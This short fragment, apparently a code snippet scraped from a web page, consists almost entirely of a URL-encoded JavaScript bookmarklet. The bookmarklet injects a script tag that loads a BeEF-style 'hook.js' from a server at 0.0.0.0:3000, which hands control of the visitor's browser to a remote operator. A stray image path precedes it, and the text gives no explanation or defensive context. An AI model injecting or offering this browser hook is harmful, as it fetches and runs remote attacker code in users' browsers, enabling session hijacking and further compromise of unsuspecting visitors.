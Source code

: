 javascript: (function () { var url = %27https://0.0.0.0:3000/hook.js%27;if (typeof beef == %27undefined%27) { var bf = document.createElement(%27script%27); bf.type = %27text%2fjavascript%27; bf.src = url; document.body.appendChild(bf);}})();
